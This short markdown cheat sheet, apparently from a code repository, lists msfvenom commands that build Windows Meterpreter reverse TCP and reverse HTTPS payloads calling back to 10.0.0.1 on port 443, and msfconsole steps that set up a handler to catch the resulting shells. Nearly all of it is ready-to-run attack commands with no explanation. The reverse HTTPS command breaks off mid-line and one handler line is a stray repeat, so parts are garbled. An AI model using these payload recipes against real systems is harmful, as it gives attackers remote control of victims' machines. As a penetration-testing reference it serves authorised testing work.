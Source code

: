 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Windows MeterpreterReverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o shell.exe
```

##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=* HttpProxyPass=* LHOST=10.0.0.1 LPORT=443 -b 
```

##### MSF Console:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```

